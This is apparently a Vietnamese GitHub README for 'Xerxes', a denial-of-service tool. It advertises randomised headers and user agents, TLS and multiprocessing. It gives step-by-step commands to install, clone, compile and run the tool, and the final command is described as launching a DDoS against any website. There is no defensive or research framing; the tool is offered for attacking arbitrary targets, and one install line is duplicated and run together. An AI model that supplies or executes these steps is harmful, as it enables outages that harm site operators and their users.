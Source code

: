 # XERXES
XERXES là công cụ DoS đơn giản mạnh mẽ nhất của zanyarjamal

# Công cụ dos Xerxes được cải tiến với nhiều tính năng như:
- [x] Hỗ trợ TLS
- [x] Tự random HTTP header
- [x] Tự random Useragent
- [x] Hỗ trợ đa xử lý
- [x] Nhiều phương thức tấn công
v.v …

# Cách cài đặt
Cài đặt các thư viện cần thiết cho Xerxes
```
sudo apt-get -y install build-essential cmake libssl-dev pkgconfsudo apt-get -y install build-essential cmake libssl-dev pkgconf
```
Tải xerxes về máy tính
```
git clone https://github.com/DauDau432/xerxes.git
```
Sau đó di chuyển đến thư mục vừa cài đặt
```
cd xerxes
```
Tiếp theo, bạn nên biên dịch với trình biên dịch GNU GCC
```
gcc xerxes.c -o xerxes
```
# Cách sử dụng
Sử dụng lệnh dưới đây để DDOS vào Website bất kỳ
```
./xerxes <IP/URL> 80
```
